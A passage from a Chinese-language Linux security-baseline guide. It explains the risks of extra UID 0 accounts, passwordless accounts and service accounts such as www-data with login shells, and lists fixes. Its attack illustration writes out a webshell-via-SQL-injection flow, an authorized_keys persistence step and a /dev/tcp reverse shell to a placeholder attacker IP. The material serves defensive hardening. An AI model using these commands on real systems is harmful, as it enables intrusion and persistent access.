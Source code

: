 **潛在危害：**
- 與第2項類似，但使用不同方法檢查
- 沒有密碼的帳號可以被任意登入
- 嚴重違反安全基線

## 建議修復措施

1. **移除或修正異常UID 0帳號**
2. **為所有帳號設定強密碼**
3. **將系統服務帳號的shell改為/sbin/nologin或/bin/false**
4. **修正重複的UID問題**
5. **建立定期安全檢查流程**
6. **實施密碼政策和帳號管理制度**

這些檢查都是Linux系統安全基線檢查的重要項目，建議定期執行以確保系統安全。


## 系統帳號有登入shell的詳細危害分析

### 什麼是系統帳號？
系統帳號是為系統服務和程序運行而創建的特殊帳號，通常UID < 1000，例如：
- `www-data` (Apache/Nginx網頁服務)
- `mysql` (MySQL資料庫服務)
- `postgres` (PostgreSQL資料庫)
- `redis` (Redis服務)
- `daemon`, `bin`, `sys` 等系統程序帳號

### 正常設計原則
這些帳號設計上應該：
- 只用於運行特定服務
- 不允許互動式登入
- shell設為 `/sbin/nologin` 或 `/bin/false`
- 沒有家目錄或家目錄受限

### 詳細危害分析

#### 1. 服務漏洞升級攻擊
**攻擊流程：**
```
Web應用漏洞 → RCE(遠程代碼執行) → 獲得www-data shell → 橫向移動
```

**實際案例：**
- 攻擊者發現網站SQL注入漏洞
- 利用`INTO OUTFILE`寫入webshell
- 通過webshell執行系統命令，此時是`www-data`權限
- 如果`www-data`有登入shell，攻擊者可以：
  ```bash
  # 建立SSH連接
  ssh-keygen -t rsa
  mkdir ~/.ssh
  echo "攻擊者公鑰" >> ~/.ssh/authorized_keys
  
  # 或者反向shell
  bash -i >& /dev/tcp/攻擊者IP/4444 0>&1
  ```
